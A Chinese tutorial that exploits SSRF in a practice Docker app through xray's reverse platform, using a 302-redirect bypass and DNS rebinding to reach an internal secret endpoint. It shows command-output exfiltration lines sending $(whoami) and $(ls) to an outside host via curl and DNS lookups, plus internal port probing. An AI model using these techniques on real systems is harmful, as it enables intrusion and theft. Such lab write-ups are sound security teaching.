# 使用 xray 反连平台挖掘和验证 SSRF

SSRF，Server-Side Request Forgery，服务端请求伪造，是一种由攻击者构造形成由服务器端发起请求的一个漏洞。一般情况下，SSRF 攻击的目标是从外网无法访问的内部系统。漏洞形成的原因大多是因为服务端提供了从其他服务器应用获取数据的功能且没有对目标地址作正确的过滤和限制 [ref](https://ctf-wiki.github.io/ctf-wiki/web/ssrf-zh/)。

## 目标是什么

在 https://github.com/virusdefender/ssrf-app 提供了一个 ssrf 的实例程序，`docker-compose build && docker-compose up` 之后，浏览器访问 `http://vuln.net:8000/?url=http://example.com`，系统就会抓取指定的地址的网页并返回，就可以看到和直接访问 `http://example.com` 一样的页面。

要注意的是，vuln.net 是我绑定的 host 到 docker 容器的 IP，我使用的 docker for mac，ip 为 `127.0.0.1`，这其实是经过端口转发的，后端服务器实际并不在我本地，这里可以看实际情况去修改。



另外已知在 `/api/internal/secret` 上存放了一个 secret api 服务，目标就是去访问它然后获取 secret，直接访问当然是不行了，会提示 IP 不在允许范围内。

首先的思路就是使用抓取网页的 api 去访问 secret api，所以先尝试将 `url` 参数换成内网 IP，然后访问查看。

## 直接访问 127.0.0.1 和使用 localhost 域名

第一个尝试的当然是 `127.0.0.1`，但是访问 `http://vuln.net:8000/?url=http://127.0.0.1:8000` 却提示 `127.0.0.1 is forbidden`，尝试使用 `localhost` 域名绕过，也是同样的提示，怀疑后端有尝试去解析 ip 然后做验证。





## 尝试扫内网吧

如果更换为其他的内网 ip，会提示连接超时 `HTTPConnectionPool(host='192.168.1.1', port=8000): Max retries exceeded with url: / (Caused by ConnectTimeoutError(, 'Connection to 192.168.1.1 timed out. (connect timeout=2)'))`，当然这也是探测内网 ip 和端口是否存在的一种特征。但是经过尝试，常见的 IP 和端口都是超时的，服务器应该是没有内网的（此处应该写一个脚本去扫描更多的 IP 和端口）。所以重点就在于如何绕过对 `127.0.0.1` 的限制了。

## 看看 IPv6

首先是尝试使用 IPv6 去绕过，访问 `http://vuln.net:8000/?url=http://[::1]:8000`，如果服务器监听了 IPv6 的地址，就可以绕过，因为访问的确实不是 `127.0.0.1`。但是经过测试发现还是报错，`[Errno -2] Name or service not known`，可能后端有一些函数是不支持 IPv6 的，像是将 `[::1]` 按照一个域名去解析了，所以这条路走不通了。

## 30x 跳转也许可以

接下来是利用 30x 跳转去绕过，因为看上面的报错信息，后端应该是 Python，Python 的 requests 等库都是默认允许跳转的，如果可以提供一个非 `127.0.0.1` 的 url，然后访问的时候返回一个 302 跳转到 `127.0.0.1` 上去就可以了。我们需要一个可以方便的自定义 http response 的平台，一种思路就是配置一个 Nginx，结合配置文件或者 Lua 脚本可以完全的实现各种自定义，但是稍有些麻烦，这时候我们就应该请出 xray 自带的反连平台了，它可以方便的在网页上配置我们期望的东西。

## 使用 xray 自带的反连平台

### 如何配置

首先去 [GitHub](https://github.com/chaitin/xray/releases) 下载最新的 xray 二进制文件，然后运行 `./xray help` 让 xray 生成一个默认的配置文件 `cofig.yaml`。我们需要在这个配置文件中配置反连平台的一些参数，默认是配置如下。

```yml
reverse:
  db_file_path: "./xray.db"
  token: ""
  http:
    enabled: true
    listen_ip: 127.0.0.1
    listen_port: ""
  dns:
    enabled: false
    listen_ip: 127.0.0.1
    domain: ""
    # 静态解析规则
    resolve:
    - type: A # A, AAAA, TXT 三种
      record: localhost
      value: 127.0.0.1
      ttl: 60
  client:
    http_base_url: ""
    dns_server_ip: ""
    remote_server: false
```

暂时只需要反连平台的 HTTP 相关功能，而不需要漏洞扫描和反连平台 DNS 相关的功能，所以只关心上面 DNS 以外的配置文件就足够了。

为了让之前提到的存在 ssrf 漏洞的应用可以访问的到，我们将 xray 运行在一个公网 IP 的机器上，所以 xray 监听的 IP 等等都需要配置，将上面的配置修改如下。

```yml
reverse:
  # 数据库文件路径，默认不用修改。
  # 本文件只能一个进程访问，如果启动两个 xray 就需要指定不同的路径。
  db_file_path: "./xray.db"
  # 用于生成的 url 验证，否则反连平台的 IP 一旦泄露，任何人访问你的平台都会被记录访问记录。
  # 有了 token 可以限制生效范围，而且修改 token 就可以失效以前的 url。
  # 我们修改为一个自定义的值
  token: "imtoken1"
  http:
    enabled: true
    # 监听地址，我们在公网机器上需要修改为 `0.0.0.0`，让所有地址都可以访问
    # 注意不一定是机器的公网 IP，本机不一定拥有这个 IP，否则会出错
    listen_ip: "0.0.0.0"
    # 监听端口，我们使用 4445
    listen_port: "4445"
  # dns 部分没有修改
  client:
    # 指定 http 部分的访问地址，这里才应该是机器的公网 IP
    http_base_url: "http://140.143.224.171:4445"
    dns_server_ip: ""
    remote_server: false
```

修改完成之后，运行 `./xray reverse`，就可以看到反连平台启动了。

```
[INFO] 2019-09-08 09:25:02 +0800 [default:config.go:160] loading config from config.yaml
reverse server base url: http://140.143.224.171:4445, token: imtoken1
reverse server webUI: http://140.143.224.171:4445/cland/
[DBUG] 2019-09-08 09:25:03 +0800 [default:reverse.go:40] reverse http server started, base url: http://140.143.224.171:4445, token: imtoken1
[INFO] 2019-09-08 09:25:03 +0800 [reverse:http_server.go:118] starting reverse http server
```

访问提示的地址 `http://140.143.224.171:4445/cland/` 就可以看到反连平台的的界面了。点击 `生成一个 URL` 就会提示输入 token。



### 反连平台的 HTTP 访问记录功能

先按照页面上的提示先测试下反连平台的功能，运行 `curl -v http://140.143.224.171:4445/p/89acfe/H34v/`

```bash
$ curl -v http://140.143.224.171:4445/p/89acfe/H34v/
*   Trying 140.143.224.171...
* TCP_NODELAY set
* Connected to 140.143.224.171 (140.143.224.171) port 4445 (#0)
> GET /p/89acfe/H34v/ HTTP/1.1
> Host: 140.143.224.171:4445
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; object-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self'; media-src 'self'; frame-src 'self'; font-src 'self' data:; connect-src 'self'
< Content-Type: application/json
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< X-Xss-Protection: 1; mode=block
< Date: Sun, 08 Sep 2019 01:28:16 GMT
< Content-Length: 22
<
* Connection #0 to host 140.143.224.171 left intact
{"code":0,"data":null}%
```

然后在左边的 `HTTP` 一栏中就可以看到了访问记录



而且反连平台支持在 url 后面随意添加参数，比如 `http://140.143.224.171:4445/p/89acfe/H34v/$(whoami)`，这样在测试一些命令执行漏洞的时候，就很方便的将一些执行结果带出来。

如果 url 位置的长度不够，还可以使用 POST 方法。比如 `curl -v http://140.143.224.171:4445/p/89acfe/H34v/ -d "$(ls)"` 就可以看到访问记录是这样的。


### 反连平台指定 response 功能

话说回来，为了验证之前利用跳转进行绕过的思路，我们在 xray 的反连平台上创建一个 url，然后指定 status code 和 header 就可以了。在网页上配置起来也是非常的简单。



点击保存之后，我们先用 curl 测试下。

```bash
$ curl -v http://140.143.224.171:4445/p/1cd0a7/3OGA/
*   Trying 140.143.224.171...
* TCP_NODELAY set
* Connected to 140.143.224.171 (140.143.224.171) port 4445 (#0)
> GET /p/1cd0a7/3OGA/ HTTP/1.1
> Host: 140.143.224.171:4445
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 302 Found
< Content-Type: text/html
< Location: http://127.0.0.1:8000/api/internal/secret
< Date: Sun, 08 Sep 2019 01:42:41 GMT
< Content-Length: 0
<
* Connection #0 to host 140.143.224.171 left intact
```

工作一切正常。

### 跳转可以绕过验证，成功~

访问 `http://vuln.net:8000/?url=http://140.143.224.171:4445/p/1cd0a7/3OGA/` 发现漏洞利用成功，查看反连平台的访问记录，也验证了之前的猜测，后端是一个 Python 的服务。





## 有什么其他的绕过么

第一个思路使用跳转绕过验证利用成功，在开头我们怀疑后端一开始会先解析一下域名为 IP，否则使用 `localhost` 等域名就直接绕过了，这里就可能引入另外一个问题，后端检查时候的域名解析结果和最后 requests 访问的时候的域名解析结果一定一样么？

### 两次解析 IP 一定一样么

我们这么怀疑有有依据的

 - Linux 的 `getaddrbyname` 等函数只会返回一个 IP，但是实际上一个域名是可以配置多条 IP 的，那这时候，如果返回 IP 的顺序是随机的，就可能被绕过。
 - 为了提高性能而且减轻 dns 服务器的负担，域名的解析记录都是有缓存时间的，就是 `TTL`，一般为 60s 或者 600s，但是也可以配置为 0，这样每次向 dns 服务器查询，dns 服务器都需要去这个域名的 ns 服务器重新查询。本条思路在实践中主要存在两个问题
   - 主流的公开的 ns 服务器都不能配置 `TTL` 为 0，只能使用自己的解析服务。
   - 很多 dns 服务器并不完全遵循 `TTL`，比如配置了 `TTL` 为 0 也会强制缓存一小段时间。经过验证，`8.8.8.8` 提供的 dns 服务器是完全遵循的。

### 6块钱买一个域名来测试

为了测试 dns rebinding 漏洞，我们需要去购买一个域名，当然是选择最便宜的了，反正使用没有任何区别，我是在阿里云购买的 `revc.xyz` 域名，一年只需要 6 块钱，如果不需要长期持有，第二年重新购买一个就足够了，因为续费是比较贵的。

按照上面的思路，我们需要将这个域名的 ns 服务器修改为自己的，这时候我们可以再去借助 xray 自带的反连平台了，因为它也是支持作为 ns 服务器去解析域名的，去阿里云的管理界面修改就可以了。



然后遇到了拦路虎，ns 服务器必须是域名，而不能是 IP，这时候我们还需要再去买一个域名？

### 鸡生蛋还是蛋生鸡的问题

其实不是的，我们完全自己解析自己，也就是 `ns1.revc.xyz` 和 `ns2.revc.xyz` 作为 `revc.xyz` 的 ns 服务器。这时候有人可能有疑问，这不是鸡生蛋蛋生鸡的问题么，`ns1` 和 `ns2` 去哪里解析，这其实是 dns 提供的功能，添加 glue record，我们可以先不用了解细节，直接去配置即可。就在左侧导航栏的 `自定义 DNS Host` 里面。



我们配置 `ns1` 和 `ns2` 为服务器的 IP，然后回到上一个页面配置 ns 为 `ns1.revc.xyz` 和 `ns2.revc.xyz` 就可以了。然后注意下面的提示，我们还需要添加 `ns1` 和 `ns2` 的 A 记录。这些都可以在 xray 的反连平台中配置。

编辑刚才的配置文件

```yml
reverse:
  # 其他的项目没有修改 ...
  dns:
    enabled: true
    # 和之前 http 的 listen ip 含义一样，修改为 0.0.0.0
    listen_ip: "0.0.0.0"
    # 刚才注册的域名
    domain: "revc.xyz"
    # 静态解析规则，如果请求解析的域名在下面配置了，就直接返回对应的结果
    # dns rebinding 返回的 ip 是动态的
    # 示例配置文件的中的 localhost 是演示使用的，我们添加 ns1 和 ns2 的 A 记录
    resolve:
    - type: A
      record: ns1
      value: 140.143.224.171
      ttl: 60
    - type: A
      record: ns2
      ttl: 60
      value: 140.143.224.171
  client:
    dns_server_ip: "140.143.224.171"
    # 其他的项目没有修改 ...
```

`./xray reverse` 启动，这时候可以看到提示信息多了一些，`dns server` 也启动了。
```
[INFO] 2019-09-08 10:20:16 +0800 [default:config.go:160] loading config from config.yaml
reverse server base url: http://140.143.224.171:4445, token: imtoken1
reverse server webUI: http://140.143.224.171:4445/cland/
[DBUG] 2019-09-08 10:20:16 +0800 [default:reverse.go:40] reverse http server started, base url: http://140.143.224.171:4445, token: imtoken1
[DBUG] 2019-09-08 10:20:16 +0800 [default:reverse.go:52] reverse dns started
[INFO] 2019-09-08 10:20:16 +0800 [reverse:dns_server.go:167] starting reverse dns server
[INFO] 2019-09-08 10:20:16 +0800 [reverse:http_server.go:118] starting reverse http server
```

要注意的是 dns 服务需要监听 UDP 53 端口，需要 root 权限而且记得在防火墙中放行。

### 反连平台可以解析 *.revc.xyz 的任意域名了

回到界面上，点击 `生成一个域名`，我们先来验证一下之前的配置有没有生效，因为 ns 记录大概需要几个小时才能全球生效，当然如果指定了 dns 服务器为自己的的话，就不需要了。

```bash
$dig ns1.revc.xyz A @140.143.224.171

; <<>> DiG 9.10.6 <<>> ns1.revc.xyz A @140.143.224.171
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 852
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
;ns1.revc.xyz.			IN	A

;; ANSWER SECTION:
ns1.revc.xyz.		60	IN	A	140.143.224.171

;; Query time: 75 msec
;; SERVER: 140.143.224.171#53(140.143.224.171)
;; WHEN: Sun Sep 08 10:22:23 CST 2019
;; MSG SIZE  rcvd: 58
```

可以看出来 ns1 的解析记录是对的，这个是我们配置文件中的静态解析规则。

在界面上可以生成一个新域名，如果我们不需要 dns rebinding 的功能，只需要查看解析记录的话，那和之前的 HTTP 访问记录功能没有太大差别，比如 `dig p-9fd889-lzyk.$(whoami).revc.xyz A@140.143.224.171` 就可以看到左侧 DNS 一栏中的记录了。



实际解析的域名中间的部分就是执行命令的结果。

### dns rebinding 也可以绕过验证，成功~

话说回来，为了验证我们之前利用 dns rebinding 进行绕过的思路，我们在 xray 的反连平台上创建一个 域名，然后指定两次不同的解析 IP 而且 TTL 为 0 就可以了。在网页上配置起来也是非常的简单。



点击保存之后，同样是先本地测试一下。

```bash
$dig p-04f887-2kua.revc.xyz A @140.143.224.171

; <<>> DiG 9.10.6 <<>> p-04f887-2kua.revc.xyz A @140.143.224.171
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 35
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
;p-04f887-2kua.revc.xyz.		IN	A

;; ANSWER SECTION:
p-04f887-2kua.revc.xyz.	0	IN	A	1.2.3.4

;; Query time: 54 msec
;; SERVER: 140.143.224.171#53(140.143.224.171)
;; WHEN: Sun Sep 08 10:29:25 CST 2019
;; MSG SIZE  rcvd: 78


$dig p-04f887-2kua.revc.xyz A @140.143.224.171

; <<>> DiG 9.10.6 <<>> p-04f887-2kua.revc.xyz A @140.143.224.171
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 57001
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
;p-04f887-2kua.revc.xyz.		IN	A

;; ANSWER SECTION:
p-04f887-2kua.revc.xyz.	0	IN	A	127.0.0.1

;; Query time: 49 msec
;; SERVER: 140.143.224.171#53(140.143.224.171)
;; WHEN: Sun Sep 08 10:29:29 CST 2019
;; MSG SIZE  rcvd: 78
```

可以看出来第一次和第二次的解析结果是不一样的，将 DNS 服务器更换为 `8.8.8.8` 可以得到相同的结果。

因为 dns rebinding 配置的两次访问是有顺序的，而且我们已经都访问过了，如果再次去解析这个域名，反连平台就只能返回默认的解析结果了，这时候可以通过再次点击保存按钮来重置访问顺序。

构造 `http://vuln.net:8000/?url=http://p-04f887-2kua.revc.xyz:8000/api/internal/secret` 的 url，我们又获取到了 secret。






在 DNS 解析历史记录中，我们看到了两个 Google 的 IP，也就是说明 Python 的后端去解析了两次，因为 TTL=0，dns 服务器每次都要回源重新解析，这样第一次和第二次访问结果不一致也就绕过了检查。

## 备注

 - 使用 `0.0.0.0` 代替 `127.0.0.1` 是另外一种绕过思路
 - 利用上面的思路访问本地的 22 和 6379 还可以发现 SSH 和 Redis 服务，也是一个重要的信息。


